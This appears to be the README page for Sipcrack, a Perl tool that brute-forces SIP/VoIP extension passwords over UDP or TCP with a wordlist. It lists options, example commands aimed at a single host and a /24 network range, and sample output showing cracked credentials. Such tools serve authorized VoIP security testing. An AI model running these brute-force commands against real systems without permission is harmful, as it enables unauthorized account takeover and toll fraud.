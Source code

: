 Sipcrack is a remote password cracker. Sipcrack uses multithread and using a wordlist can test passwords for several users in IP and port ranges.

# Features #
Sipcrack allows us to:
  * Test remotely a list of users and passwords using REGISTER method
  * Test users and passwords on a network range
  * Use a prefix for extensions range (maybe user and extension is not the same)
  * Connect over UDP or TCP protocol.
  * Try UDP and TCP at the same time.
  * Resume a previous session
  * Analyze responses using verbose mode.

# Usage #
```
$ perl sipcrack.pl

SipCRACK - by Pepelux <pepeluxx@gmail.com>
--------

Usage: perl sipcrack.pl -h <host> -w wordlist [options]
 
== Options ==
-e  <string>     = Extension (default from 100 to 1000)
-s  <integer>    = Source number (CallerID) (default: 100)
-d  <integer>    = Destination number (default: 100)
-r  <integer>    = Remote port (default: 5060)
-p  <string>     = Prefix (for extensions)
-proto  <string>  = Protocol (UDP or TCP - By default: UDP)
-ip <string>     = Source IP (by default it is the same as host)
-resume          = Resume last session
-w               = Wordlist
-v               = Verbose (trace information)
-vv              = More verbose (more detailed trace)
```

  * Try to crack extensions from 100 to 1000 on 192.168.0.1 port 5060
```
perl sipcrack.pl -h 192.168.0.1 -w wordlist
```

  * Try to crack extensions from user100 to user200 on 192.168.0.0 network
```
perl sipcrack.pl -h 192.168.0.0/24 -e 100-200 -p user -w wordlist
```

# Example #
```
$ perl sipcrack.pl -h 192.168.0.55 -e 100-200 -w dictionary
Found match: 192.168.0.55:5060 - User: 100 - Pass: p3p3lux
Found match: 192.168.0.55:5060 - User: 101 - Pass: p3p3lux

IP address	Port	Exten	Pass
==========	====	=====	====
192.168.0.55	5060	100	p3p3lux
192.168.0.55	5060	101	p3p3lux
```
